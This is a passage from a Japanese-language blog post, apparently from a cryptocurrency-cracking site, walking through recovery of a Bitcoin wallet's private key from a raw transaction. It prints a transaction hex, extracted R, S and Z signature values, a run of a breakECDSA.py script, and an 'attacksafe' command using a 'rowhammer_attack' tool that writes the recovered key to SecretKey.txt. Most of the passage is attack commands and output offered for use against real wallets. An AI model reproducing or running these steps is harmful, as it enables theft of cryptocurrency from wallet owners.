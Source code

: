 

<p>breakECDSA.py スクリプトを使用してみましょう</p>



<pre class="wp-block-code"><code>python2 breakECDSA.py 0100000001e4705464562efc76d90240841ff3ed91c8db0b58ee4666502cb0a35cd5611f990d0000006a4730440220682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e880220052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0158020000000000001976a914406840ebc10519e0934c739a83a2d51f70ff09ae88ac00000000
</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-153-1024x248.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1276"/></figure>



<pre class="wp-block-code"><code>R = 0x682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e88
S = 0x052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9
Z = 0x395e27708f075827fc7b179382a2a5e13c7649a046a89f2937bc5754349cc05d</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<p>脆弱な ECDSA 署名トランザクションから秘密鍵を取得するために、データを<code>RawTX</code>テキスト ドキュメントに追加してファイルとして保存しましょう<code>RawTX.txt</code></p>



<pre class="wp-block-code"><code>0100000001e4705464562efc76d90240841ff3ed91c8db0b58ee4666502cb0a35cd5611f990d0000006a4730440220682e6b2b855d9ca3e9e88a1ecf44cfe82461560c6c6db54c0c894e9c3e8b1e880220052dd955d1521081a2e48b1830ee17e3c3f75eaf5fdc9072905914f5872155b9012102083a0f1f4d81e74cb2903feccbaf82f7cb5cbeecafd178caefa2fa10d2dfe54dffffffff0158020000000000001976a914406840ebc10519e0934c739a83a2d51f70ff09ae88ac00000000</code></pre>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<h2><code>-tool rowhammer_attack</code>ソフトウェアを使用して起動する<code>“ATTACKSAFE SOFTWARE”</code></h2>



<hr class="wp-block-separator has-alpha-channel-opacity"/>



<pre class="wp-block-code"><code>./attacksafe -tool rowhammer_attack -open RawTX.txt -save SecretKey.txt</code></pre>



<figure class="wp-block-image"><img src="https://cryptodeep.ru/wp-content/uploads/2022/10/image-154-1024x298.png" alt="署名フォルトを使用して Bitcoin ウォレットの秘密鍵を取得する方法 (Bitcoin に対する Rowhammer 攻撃)" class="wp-image-1278"/></figure>



<p>この攻撃は から開始され<code>-tool rowhammer_attack</code>、結果はファイルに保存されました<code>SecretKey.txt</code></p>


